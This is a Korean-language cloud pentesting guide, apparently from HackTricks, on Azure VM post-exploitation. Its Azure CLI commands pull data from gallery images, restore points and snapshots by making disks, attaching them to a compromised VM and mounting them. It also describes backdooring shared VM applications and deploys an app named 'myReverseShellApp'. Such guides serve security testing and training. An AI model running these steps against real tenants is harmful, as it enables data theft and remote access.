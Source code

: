 # Az - VMs & Network Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## VMs & Network

Azure VMs 및 네트워킹에 대한 자세한 정보는 다음 페이지를 확인하세요:

{{#ref}}
../az-services/vms/
{{#endref}}

### VM Application Pivoting

VM 애플리케이션은 다른 구독 및 테넌트와 공유될 수 있습니다. 애플리케이션이 공유되고 있다면, 아마도 사용되고 있기 때문입니다. 따라서 공격자가 **애플리케이션을 침해하고 백도어가 포함된** 버전을 업로드하면 **다른 테넌트나 구독에서 실행될 가능성이** 있습니다.

### Sensitive information in images

과거에 VM에서 촬영된 **이미지 안에 민감한 정보**가 있을 수 있습니다.

1. **갤러리에서 이미지 목록**
```bash
# Get galleries
az sig list -o table

# List images inside gallery
az sig image-definition list \
--resource-group <RESOURCE_GROUP> \
--gallery-name <GALLERY_NAME> \
-o table

# Get images versions
az sig image-version list \
--resource-group <RESOURCE_GROUP> \
--gallery-name <GALLERY_NAME> \
--gallery-image-definition <IMAGE_DEFINITION> \
-o table
```
2. **사용자 정의 이미지 목록**
```bash
az image list -o table
```
3. **이미지 ID로 VM 생성** 및 그 안에서 민감한 정보 검색
```bash
# Create VM from image
az vm create \
--resource-group <RESOURCE_GROUP> \
--name <VM_NAME> \
--image /subscriptions/<SUBSCRIPTION_ID>/resourceGroups/<RESOURCE_GROUP>/providers/Microsoft.Compute/galleries/<GALLERY_NAME>/images/<IMAGE_DEFINITION>/versions/<IMAGE_VERSION> \
--admin-username <ADMIN_USERNAME> \
--generate-ssh-keys
```
### 복원 지점의 민감한 정보

**복원 지점 안에 민감한 정보**를 찾을 수 있을지도 모릅니다.

1. **복원 지점 나열**
```bash
az restore-point list \
--resource-group <RESOURCE_GROUP> \
--restore-point-collection-name <COLLECTION_NAME> \
-o table
```
2. **복원 지점**에서 디스크 생성
```bash
az disk create \
--resource-group <RESOURCE_GROUP> \
--name <NEW_DISK_NAME> \
--source /subscriptions/<SUBSCRIPTION_ID>/resourceGroups/<RESOURCE_GROUP>/providers/Microsoft.Compute/restorePointCollections/<COLLECTION_NAME>/restorePoints/<RESTORE_POINT_NAME>
```
3. **VM에 디스크 연결** (공격자는 이미 계정 내에서 VM을 침해해야 함)
```bash
az vm disk attach \
--resource-group <RESOURCE_GROUP> \
--vm-name <VM_NAME> \
--name <DISK_NAME>
```
4. **디스크를 마운트**하고 **민감한 정보 검색**

{{#tabs }}
{{#tab name="Linux" }}
```bash
# List all available disks
sudo fdisk -l

# Check disk format
sudo file -s /dev/sdX

# Mount it
sudo mkdir /mnt/mydisk
sudo mount /dev/sdX1 /mnt/mydisk
```
{{#endtab }}

{{#tab name="Windows" }}

#### **1. 디스크 관리 열기**

1. **시작**을 마우스 오른쪽 버튼으로 클릭하고 **디스크 관리**를 선택합니다.
2. 연결된 디스크가 **오프라인** 또는 **할당되지 않음**으로 표시되어야 합니다.

#### **2. 디스크 온라인으로 전환**

1. 하단 창에서 디스크를 찾습니다.
2. 디스크(예: **디스크 1**)를 마우스 오른쪽 버튼으로 클릭하고 **온라인**을 선택합니다.

#### **3. 디스크 초기화**

1. 디스크가 초기화되지 않은 경우, 마우스 오른쪽 버튼을 클릭하고 **디스크 초기화**를 선택합니다.
2. 파티션 스타일을 선택합니다:
- **MBR** (마스터 부트 레코드) 또는 **GPT** (GUID 파티션 테이블). 현대 시스템에는 GPT를 권장합니다.

#### **4. 새 볼륨 만들기**

1. 디스크의 할당되지 않은 공간을 마우스 오른쪽 버튼으로 클릭하고 **새 단순 볼륨**을 선택합니다.
2. 마법사를 따라:
- 드라이브 문자 할당 (예: `D:`).
- 디스크 포맷 (대부분의 경우 NTFS 선택).
{{#endtab }}
{{#endtabs }}

### 디스크 및 스냅샷의 민감한 정보

**디스크 또는 이전 디스크의 스냅샷 안에 민감한 정보를 찾는 것이 가능할 수 있습니다.**

1. **스냅샷 목록**
```bash
az snapshot list \
--resource-group <RESOURCE_GROUP> \
-o table
```
2. **스냅샷에서 디스크 생성** (필요한 경우)
```bash
az disk create \
--resource-group <RESOURCE_GROUP> \
--name <DISK_NAME> \
--source <SNAPSHOT_ID> \
--size-gb <DISK_SIZE>
```
3. **디스크를 VM에 연결하고 마운트**하여 민감한 정보를 검색합니다 (이 작업을 수행하는 방법은 이전 섹션을 참조하십시오)

### VM 확장 및 VM 애플리케이션의 민감한 정보

**VM 확장 및 VM 애플리케이션 내부에서 민감한 정보를 찾는 것이 가능할 수 있습니다.**

1. **모든 VM 앱 나열**
```bash
## List all VM applications inside a gallery
az sig gallery-application list --gallery-name <gallery-name> --resource-group <res-group> --output table
```
2. VM에 확장 프로그램을 설치하고 **민감한 정보 검색**
```bash
az vm application set \
--resource-group <rsc-group> \
--name <vm-name> \
--app-version-ids /subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.Compute/galleries/myGallery/applications/myReverseShellApp/versions/1.0.2 \
--treat-deployment-as-failure true
```
{{#include ../../../banners/hacktricks-training.md}}
